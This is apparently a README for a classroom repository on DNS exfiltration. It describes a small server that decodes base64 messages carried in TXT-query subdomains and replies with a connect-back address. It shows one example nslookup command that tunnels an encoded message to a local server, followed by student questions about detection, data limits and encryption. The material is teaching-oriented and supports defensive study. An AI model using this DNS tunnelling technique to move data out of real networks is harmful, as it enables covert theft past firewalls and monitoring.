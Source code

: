 # DNSexfil
This repo supports the begins of a classroom discussion about DNS exfiltration.

The "hello" returns the decoded message sent in a DNS query, along with the IP address the client would connect with.  It is a student effort to modify the server to handle a proper exfiltration.

dns_exfil_server.py as is responses only to TXT queries. The first subdomain is assumed to be a base64 URL encoded message.

Example, assuming dns_exfil_server.py is running locally: 
```
nslookup -q=txt VGhpcyBpcyBteSBtZXNzYWdlIHRvIHRoZSBzZXJ2ZXIsIHlvdXIgc2VydmFudA.fake 127.0.0.1
DNS request timed out.
    timeout was 2 seconds.
Server:  UnKnown
Address:  127.0.0.1

VGhpcyBpcyBteSBtZXNzYWdlIHRvIHRoZSBzZXJ2ZXIsIHlvdXIgc2VydmFudA.fake     text =

        "This is my message to the server, your servant. Server reply: connect to 11.22.33.44:5678"
```

Student discussion  
- How much data can be sent in a single DNS query?
- How would the affected site discover the exfiltration?
- Should the client after the hello exchange, shift to HTTPS?
- Would a DNS server discover the exfiltration?
- Would a network firewall discover the exfiltration?
- Would a DLP solution discover the exfiltration?
- What happens to the exfiltration if a UDP packet fails?
- Is adding encryption needed?
- How would you add encryption?
- Does the exfiltration care about losing UDP packets?
- What advantages/disadvantages does DNS over HTTPS (DoH) provide?
